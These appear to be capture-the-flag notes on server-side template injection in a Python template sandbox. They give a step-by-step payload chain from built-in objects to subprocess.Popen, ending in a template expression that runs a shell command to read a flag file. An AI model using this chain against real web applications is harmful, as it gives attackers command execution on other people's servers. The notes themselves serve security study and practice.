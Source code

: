 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>,...]
```

The subprocess.Popen class allows us to run os commands and is of interest.
```
python3 extract_subclass_num.py subclasses subprocess
413:  <class 'subprocess.CompletedProcess'>
414:  <class 'subprocess.Popen'>
```
3. Running OS commands
```
{{ [].__class__.__base__.__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip() }}
```
